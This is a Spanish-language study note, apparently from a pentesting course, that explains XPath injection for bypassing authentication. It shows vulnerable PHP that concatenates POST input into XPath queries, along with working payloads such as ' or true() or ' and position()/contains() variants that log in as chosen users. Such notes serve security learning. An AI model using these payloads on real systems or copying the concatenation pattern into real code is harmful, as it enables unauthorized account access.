 ```yaml
---
tags:
  - Web/Red-Team
  - Pentesting/Explotacion
Fecha de actualización: 2025-10-20
Nota previa: "[[Inyección XPath]]"
Nota siguiente:
Area: "[[Inyección XPath]]"
---
```

---

# Autenticación con XPath
¿**Cómo se puede implementar la autenticación a través de consultas *XPath***?. Como ejemplo, consideremos un documento *XML* que almacena datos de usuario como este:
```xml
<users>
	<user>
		<name first="Kaylie" last="Grenvile"/>
		<id>1</id>
		<username>kgrenvile</username>
		<password>P@ssw0rd!</password>
	</user>
	<user>
		<name first="Admin" last="Admin"/>
		<id>2</id>
		<username>admin</username>
		<password>admin</password>
	</user>
	<user>
		<name first="Academy" last="Student"/>
		<id>3</id>
		<username>htb-stdnt</username>
		<password>Academy_student!</password>
	</user>
</users>
```

Para realizar la autenticación, la aplicación web podría ejecutar una consulta *XPath* como la siguiente:
```xpath
/users/user[username/text()='htb-stdnt' and password/text()='Academy_student!']
```

El código *PHP* vulnerable inserta el nombre de usuario y la contraseña sin desinfección previa en la consulta:
```php
$query = "/users/user[username/text()='" . $_POST['username'] . "' and password/text()='" . $_POST['password'] . "']";
$results = $xml->xpath($query);
```

Nuestro <mark style="background: #ADCCFFA6;">objetivo es evitar la autenticación inyectando un nombre de usuario y una contraseña de modo que la consulta XPath siempre evalúe `true`</mark>. Podemos lograr esto inyectando el valor `' or '1'='1` como nombre de usuario y contraseña. La consulta XPath resultante se ve así:
```xpath
/users/user[username/text()='' or '1'='1' and password/text()='' or '1'='1']
```
> [!success]+
> Dado que **el predicado se evalúa como `true`, la consulta devuelve todos los nodos `user` de elementos del documento *XML***. 

¿**Qué pasa si queremos iniciar sesión como `admin`**? En ese caso, tenemos que <mark style="background: #ADCCFFA6;">inyectar un nombre de usuario de `admin' or '1'='1` y un valor arbitrario para la contraseña</mark>. De esta manera, la consulta *XPath* resultante se ve así:
```xpath
/users/user[username/text()='admin' or '1'='1' and password/text()='abc']
```
> [!important]+
> Debido a la cláusula `or`, la consulta anterior nos iniciará sesión como `admin` usuario sin proporcionar la contraseña correcta.

---

# Explotación
En escenarios del mundo real, las **contraseñas suelen estar codificadas**. Además, es posible que <mark style="background: #FFB8EBA6;">no conozcamos un nombre de usuario válido</mark>, por lo tanto, <mark style="background: #FFB86CA6;">no podemos utilizar los payloads mencionadas anteriormente</mark>. Afortunadamente, podemos utilizar *payloads* de inyección más avanzados para eludir la autenticación en tales casos. Consideremos el siguiente ejemplo:
```xml
<users>
	<user>
		<name first="Kaylie" last="Grenvile"/>
		<id>1</id>
		<username>kgrenvile</username>
		<password>8a24367a1f46c141048752f2d5bbd14b</password>
	</user>
	<user>
		<name first="Admin" last="Admin"/>
		<id>2</id>
		<username>obfuscatedadminuser</username>
		<password>21232f297a57a5a743894a0e4a801fc3</password>
	</user>
	<user>
		<name first="Academy" last="Student"/>
		<id>3</id>
		<username>htb-stdnt</username>
		<password>295362c2618a05ba3899904a6a3f5bc0</password>
	</user>
</users>
```

En este caso, el código *PHP* vulnerable puede verse así:
```php
$query = "/users/user[username/text()='" . $_POST['username'] . "' and password/text()='" . md5($_POST['password']) . "']";
$results = $xml->xpath($query);
```

Dado que la **contraseña se codifica antes de insertarla en la consulta**, se inyecta un nombre de usuario y una contraseña de `' or '1'='1` dará como resultado la siguiente consulta:
```xpath
/users/user[username/text()='' or '1'='1' and password/text()='59725b2f19656a33b3eed406531fb474']
```
> [!missing]+
> <mark style="background: #ADCCFFA6;">Esta consulta no devuelve ningún nodo</mark>, por lo tanto, no podemos eludir la autenticación de esta manera. Dado que tampoco conocemos ningún nombre de usuario válido, no podemos eludir la autenticación con los *payloads* analizados hasta ahora.

En primer lugar, <mark style="background: #FFB86CA6;">podemos inyectar una doble cláusula `or` en el nombre de usuario</mark> para que la consulta *XPath* retorne `true`, devolviendo así todos los nodos de usuario de modo que iniciemos sesión como el primer usuario. Un ejemplo de *payload* sería `' or true() or '` dando como resultado la siguiente consulta:
```xpath
/users/user[username/text()='' or true() or '' and password/text()='59725b2f19656a33b3eed406531fb474']
```
> [!info]+ 
> Debido a la forma en que se evalúa la consulta, el doble `or` da como resultado un universal `true` universal, por lo que omitimos la autenticación.

Sin embargo, tal como se discutió anteriormente, <mark style="background: #8000E1A6;">es posible que queramos iniciar sesión como un usuario específico para obtener más privilegios</mark>. Una forma de hacerlo es <mark style="background: #FFB8EBA6;">iterar sobre todos los usuarios por su posición</mark>. Esto se puede lograr con: `' or position()=2 or '`, lo que da como resultado la siguiente consulta:
```xpath
/users/user[username/text()='' or position()=2 or '' and password/text()='59725b2f19656a33b3eed406531fb474']
```

Esto devolverá solo el nodo de usuario `second`. <mark style="background: #ADCCFFA6;">Podemos incrementar la posición para iterar sobre todos los usuarios hasta encontrar el usuario que buscamos</mark>. Puede haber millones de usuarios en implementaciones del mundo real, por lo que esta técnica manual se volverá inviable muy rápidamente. En cambio, <mark style="background: #FFB86CA6;">podemos buscar usuarios específicos si conocemos parte del nombre de usuario</mark>. Para ello, podemos usar: `' or contains(.,'admin') or '`, lo que da como resultado la siguiente consulta:
```xpath
/users/user[username/text()='' or contains(.,'admin') or '' and password/text()='59725b2f19656a33b3eed406531fb474']
```
> [!success]+
> <mark style="background: #FF5582A6;">Esta consulta devuelve todos los nodos de usuario que contienen la cadena `admin` en cualquier descendiente</mark>. Desde el `username` el nodo es hijo del nodo `user`, esto devuelve todos los usuarios que contienen la subcadena `admin` en el nombre de usuario.